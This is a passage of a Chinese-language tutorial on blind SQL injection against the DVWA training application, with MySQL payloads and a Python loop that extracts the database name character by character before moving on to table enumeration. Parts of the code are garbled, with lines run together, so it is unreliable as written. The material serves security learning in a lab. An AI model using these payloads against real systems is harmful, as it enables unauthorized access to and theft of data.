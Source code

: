 # 步骤 1:获取数据库信息

在黑盒攻击的情况下，第一步是获取关于数据库的信息。在这种情况下，我会假设我们已经知道 MySQL 是目标 DBMS(我在以前的文章中通过使用 [MySQL Version 函数](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_version)展示了如何知道这一点)。

用 python 对中等安全级别的 [DVWA](https://github.com/digininja/DVWA) 进行盲 SQL 注入攻击的想法与我们已经看到的并没有太大的不同。
我们必须使用长度函数，并通过与合理范围的值进行比较来测试它。
有效载荷将是(记住花括号是一个占位符，我们将在代码中替换它):

```
1 AND LENGTH(DATABASE()) = {} #
```

之后，我们知道了数据库名称的长度，我们可以测试所有子字符串，记住我们不能使用引号，所以值必须转换成十六进制值。

由于有了[子串](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring)函数，这个有效负载将让我们检索数据库的名称:

```
1 AND SUBSTRING(DATABASE(), {}, 1) = {}
```

我们已经看到了如何运行有效载荷并得到结果，但是一个回顾不会伤害我们！

```
query = queries["db_length"]
length = 0
for i in range(1,10):
    if get_query_result(s, sqli_blind_url, query, i):
        print(f"[+] The DB's name length is {i}")
        length = i
        breakquery = queries["db_name"]
dbname = []for i in range(1, length+1):
    for c in string.ascii_lowercase:
        if get_query_result(s, sqli_blind_url, query, i, get_hex_str(c)):
            dbname.append(c)
            break
dbname = "".join(dbname)
print(f'[+] Found a database with name: {dbname}')
```

# 步骤 2:获取表格信息

一个好的黑客将执行的下一步是检索表的信息，特别是，我们想知道:

*   数字
*   名称

获得数字与获得数据库名称的长度没有太大区别，这一次我们需要对它们进行计数，并将它们与一系列合理的数字进行比较(您可以对什么是“合理的”做出假设！)，对于我们的示例，我选择了 1 到 10 之间的范围。

为此，我们将查询*information _ schema . tables*元表，并使用 [COUNT](https://dev.mysql.com/doc/refman/8.0/en/aggregate-functions.html#function_count) 函数

这是产生的有效载荷:
